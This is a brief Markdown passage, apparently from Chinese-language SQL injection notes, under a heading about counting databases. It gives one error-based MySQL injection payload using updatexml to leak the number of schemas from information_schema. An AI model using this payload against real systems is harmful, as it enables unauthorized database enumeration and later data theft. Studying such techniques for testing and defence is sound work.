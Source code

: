 ![image-20250222152611286](static/image/image-20250222152611286.png)

#### 获取数据库数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(schema_name))FROM(information_schema.schemata)),0x7e),1)
```
